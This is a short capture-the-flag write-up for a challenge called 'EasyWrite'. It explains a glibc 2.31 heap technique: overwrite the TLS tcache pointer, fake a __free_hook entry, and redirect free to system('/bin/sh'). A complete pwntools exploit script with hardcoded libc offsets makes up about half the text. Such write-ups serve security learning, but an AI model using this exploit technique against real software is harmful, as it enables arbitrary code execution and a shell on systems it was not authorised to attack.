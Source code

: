 # EasyWrite

- The challenge is simple. It provides us with a libc leak at first.
- Then it does malloc(0x300) and allow us to do an arbirary heap write anywhere.
- SO i just overwrite the fs[12] which stores the tcache_structure address.
- The challenge then later does malloc(0x30) write data to the returned pointer and free.
- After i overwrote fs[12] #(.tls) when we malloc glibc will take the address of  pointer which we overwrite as tcach_structure, which we control. So i just faked a `__free_hook` entry and get AAW primitive.

## Exploit

```python
#!/usr/bin/python3
from pwn import *
from past.builtins import xrange
from time import sleep
import random

#Addr libc 2.31
__free_hook = 0x1eeb28
tls_tcache = 0x1f34f0
system = 0x55410

#Exploit
if __name__ == '__main__':

	io = process('./easywrite')
#	io = remote('124.156.183.246',20000)
	libc_base = int(io.recvline().strip().split(b':')[1],0)-0x8ec50
	print(hex(libc_base))
	__FUK = p64(0x0000000100000000)+p64(0)+\
		p64(0)*0x10+p64(libc_base+__free_hook-0x8)

	io.sendafter('Input your message:',__FUK)

	io.sendafter('Where to write?:',p64(libc_base+tls_tcache))
	io.sendafter('message?:',b'/bin/sh\0'+p64(libc_base+system))
	io.interactive()
```
